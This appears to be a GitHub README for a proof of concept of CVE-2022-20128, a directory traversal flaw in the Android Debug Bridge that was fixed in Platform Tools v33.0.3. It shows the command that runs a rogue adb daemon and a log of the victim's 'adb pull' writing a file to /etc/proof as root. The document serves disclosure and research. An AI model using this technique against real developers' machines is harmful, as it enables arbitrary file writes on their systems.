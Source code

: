 # CVE-2022-20128
Android Debug Bridge (adb) was vulnerable to directory traversal attacks that could have been mounted by rogue/compromised adb daemons during an adb pull operation.

The rogue device:

```
./adbdirtrav.py -lp 5111 --content "hello world" --destination-path /etc/proof
```

The victim:

```
root@eedd4cb8b202:/tmp/platform-tools# cat /etc/proof
cat: /etc/proof: No such file or directory

root@eedd4cb8b202:/tmp/platform-tools# ./adb connect 10.6.8.145:5111
* daemon not running; starting now at tcp:5037
* daemon started successfully
connected to 10.6.8.145:5111

root@eedd4cb8b202:/tmp/platform-tools# ./adb devices
List of devices attached
10.6.8.145:5111  device

root@eedd4cb8b202:/tmp/platform-tools# ./adb pull /data/local/tmp/1 /tmp/sdfsdf
/data/local/tmp/1/: 1 file pulled, 0 skipped. 0.0 MB/s (11 bytes in 0.150s)

root@eedd4cb8b202:/tmp/platform-tools# cat /etc/proof
hello world
```

This was fixed in Platform Tools v33.0.3.

